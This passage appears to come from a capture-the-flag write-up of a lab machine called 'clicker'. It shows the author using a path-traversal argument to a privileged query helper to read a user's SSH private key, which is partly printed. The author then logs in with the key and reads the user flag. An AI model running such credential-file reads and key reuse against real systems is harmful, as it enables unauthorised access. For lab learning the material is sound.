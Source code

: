 ```
' at line 1

```

I can also get jack’s SSH private key:

```
www-data@clicker:/opt/manage$ ./execute_query 223 ../.ssh/id_rsa
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs4eQaWHe45iGSieDHbraAYgQdMwlMGPt50KmMUAvWgAV2zlP8/1Y
...[snip]...
LsOxRu230Ti7tRBOtV153KHlE4Bu7G/d028dbQhtfMXJLu96W1l3Fr98pDxDSFnig2HMIi
lL4gSjpD/FjWk9AAAADGphY2tAY2xpY2tlcgECAwQFBg==
-----END OPENSSH PRIVATE KEY---
--------------

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAA' at line 1

```

### SSH

Interestingly, if I try to use this key just as is, I get:

```
oxdf@hacky$ ssh -i ~/keys/clicker-jack jack@clicker.htb
Load key "/home/oxdf/keys/clicker-jack": error in libcrypto
jack@clicker.htb's password:

```

I’ll have to add two “-“ to the first and last line from the key (no idea why those got truncated), and then it works:

```
oxdf@hacky$ ssh -i ~/keys/clicker-jack jack@clicker.htb
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-84-generic x86_64)
...[snip]...
jack@clicker:~$

```

And I can get `user.txt`:

```
jack@clicker:~$ cat user.txt
fa528539************************

```

## Shell as root
